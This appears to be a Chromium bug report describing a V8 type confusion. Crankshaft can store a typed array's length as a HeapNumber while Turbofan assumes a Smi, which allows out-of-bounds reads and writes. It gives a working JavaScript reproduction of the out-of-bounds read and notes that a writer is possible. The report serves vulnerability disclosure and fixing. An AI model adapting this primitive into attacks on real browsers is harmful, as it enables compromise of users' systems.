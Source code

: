 <b>VULNERABILITY DETAILS</b>
As of [1], Turbofan expects a JSTypedArray's length field to always contain a Smi, but Crankshaft can be tricked into storing the length as a HeapNumber. Turbofan-optimized code will then read the upper half of this HeapNumber's pointer as an int32 and perform a bogus bounds check against it. This allows OOB r/w accesses.

Since most of the system agrees with Turbofan that those length values should be Smis, the appropriate fix is to ensure that Crankshaft is aligned with this assumption.

[1] https://codereview.chromium.org/2320473003/diff/80001/src/compiler/access-builder.cc

<b>VERSION</b>
Chrome Version: current ToT, M55-Dev
Operating System: all (only x64)

<b>REPRODUCTION CASE</b>

function c4(w, h) {
  var size = w * h;
  if (size < 0) size = 0;
  return new Uint32Array(size);
}

for (var i = 0; i < 3; i++) {
  // Computing -0 as the result makes the "size = w * h" multiplication IC
  // go into double mode.
  c4(0, -1);
}
// Optimize Uint32ConstructFromLength.
for (var i = 0; i < 1000; i++) c4(2, 2);

// This array will have a HeapNumber as its length:
var bomb = c4(2, 2);

// By the same principle, a writer could be constructed :-)
function reader(o, i) {
  // Dummy try-catch, so that TurboFan is used to optimize this.
  try {} catch(e) {}
  return o[i];
}
// Optimize reader!
for (var i = 0; i < 3; i++) reader(bomb, 0);
%OptimizeFunctionOnNextCall(reader);
reader(bomb, 0);

for (var i = bomb.length; i < 1000; i++) {
  // All these *should* be undefined...
  print(i + " : " + reader(bomb, i));
}

